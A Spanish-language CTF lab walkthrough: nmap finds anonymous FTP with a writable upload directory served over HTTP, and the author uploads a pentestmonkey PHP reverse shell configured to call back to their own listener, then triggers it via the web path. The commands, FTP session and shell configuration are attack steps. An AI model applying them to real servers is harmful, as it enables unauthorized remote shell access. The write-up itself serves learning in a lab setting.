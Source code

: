 ```
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
| drwxr-xr-x    2 0        0            4096 Apr 28 18:28 heustonn-html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33           4096 Apr 28 21:08 upload [NSE: writeable]
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
```
Vemos que tiene habilitado el usuario **Anonymous** y que hay un directorio llamado **upload** en el que tenemos permisos de escritura y ejecución, así que lo primero será conectarnos por ftp y subir una archivo php con una reverse shell.
```bash
ftp 172.17.0.2
```
## Explotación.
Cuando nos pida el usuario ponemos "Anonymous" y ya podemos conectarnos.
```
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:tbrux): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
Para la reverse shell yo he utilizado una de pentestmonkey disponibre en  [GITHUB](https://github.com/pentestmonkey/php-reverse-shell), que simplemente es copiar y pegar en un archivo y modificar la ip y el puerto.
```
$ip = '172.17.0.1';  // CHANGE THIS
$port = 4443;       // CHANGE THIS
```
Entramos al directorio **upload** y subimos el archivo php creado.
```bash
put revershell.php
```
```
ftp> cd upload
250 Directory successfully changed.
ftp> put reverseshell.php
local: reverseshell.php remote: reverseshell.php
229 Entering Extended Passive Mode (|||14563|)
150 Ok to send data.
100% |***********************************************************************************************************************************************************************************************|  5492       63.87 MiB/s    00:00 ETA
226 Transfer complete.
5492 bytes sent in 00:00 (13.09 MiB/s)
ftp> 
```
Una vez lo tenemos subido nos ponemos en escucha por el puerto que hemos configurado en el archivo **reverseshell.php**, y vamos a la dirección donde hemos subido nuesta reverse shell http://172.17.0.2/upload/reverseshell.php.